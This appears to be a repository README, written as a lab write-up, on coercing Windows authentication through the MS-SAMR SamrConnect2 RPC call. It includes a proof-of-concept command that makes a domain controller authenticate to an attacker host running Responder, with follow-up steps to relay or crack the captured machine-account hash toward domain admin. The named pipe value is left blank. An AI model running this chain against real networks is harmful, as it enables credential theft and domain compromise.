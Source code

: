 # MS-SAMR - Remote call to SamrConnect2 (opnum 57)

## Summary

+ **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

+ **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`SamrConnect2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/1076eb2a-4f51-4c5a-a7c7-a78323b06198)

+ **Function operation number**: `57`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrConnect2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/1076eb2a-4f51-4c5a-a7c7-a78323b06198) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrConnect2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long SamrConnect2(
   [in, unique, string] PSAMPR_SERVER_NAME ServerName,
   [out] SAMPR_HANDLE* ServerHandle,
   [in] unsigned long DesiredAccess
 );
```

## References

+ Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

+ Documentation of function `SamrConnect2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/1076eb2a-4f51-4c5a-a7c7-a78323b06198